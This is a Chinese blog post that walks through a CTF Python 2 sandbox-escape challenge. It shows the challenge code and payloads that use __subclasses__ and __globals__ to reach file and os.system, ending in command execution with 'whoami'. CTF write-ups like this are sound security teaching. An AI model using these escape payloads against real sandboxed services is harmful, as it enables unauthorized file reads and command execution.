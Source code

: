 ```yaml
---
layout: post
title: python沙箱逃逸
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


看了几天的ssti注入然后了解到有python沙箱逃逸  

学过ssti注入的话python沙箱逃逸还是很容易理解的。  

看一道CTF题目，源码的话我改了改，一开始不能用，直接在py2上运行就好。  

题目要求读取./key的值，我们这里来执行命令。  

```
def make_secure():
    UNSAFE = ['open',
              'file',
              'execfile',
              'compile',
              'reload',
              '__import__',
              'eval',
              'input']
    for func in UNSAFE:
        del __builtins__.__dict__[func]
from re import findall
# Remove dangerous builtins
make_secure()
print 'Go Ahead, Expoit me >;D'
while True:
    try:
        # Read user input until the first whitespace character
        inp = findall('\S+', raw_input())[0]
        a = None
        # Set a to the result from executing the user input
        exec 'a=' + inp
        print 'Return Value:', a
    except Exception as e:
		print 'Exception:', e  

```  

题目一开始就删除了些危险函数，比如file等。  

那删除和没删除有什么区别呢？  

![](https://i.imgur.com/UZuiTL8.png)  

通俗来说，就是不能直接调用了。builtins里面被删除的函数不能被直接调用了。  

那我们能不能通过别的办法调用file呢？答案是肯定的  

![](https://i.imgur.com/IyE9pXt.png)  

>     "".__class__.__mro__[2].__subclasses__()[40]
>     这段不是builtins里面的函数，是直接从object拿来调用的，所以没问题。  

![](https://i.imgur.com/YwtffGn.png)  

很轻松的就读到了key，可我们的目标是提权。  




- 我想用os模块，一种是从别的模块能不能直接调用它:  
>     <class 'site._Printer'> [71](可以直接调用os模块)  



- 另一种需要eval配合__import__导入os模块  
>     <class 'warnings.catch_warnings'>[59]     


>      open,eval,file,__import__,reload（并没有os，需要用eval配合__import__导入）,可是这段需要builtins，里面的__import__被删除了。这个办法我想应该行不通。  

所以我们先找到<class 'site._Printer'>模块  

>     ''.__class__.__mro__[2].__subclasses__()[72]    
>     ''.__class__.__mro__[2].__subclasses__()[71]
>     两个都试试，我linux和windows不一样不知道为啥，然后
>     ''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('whoami')完成命令执行  

![](https://i.imgur.com/kwzpiyt.png)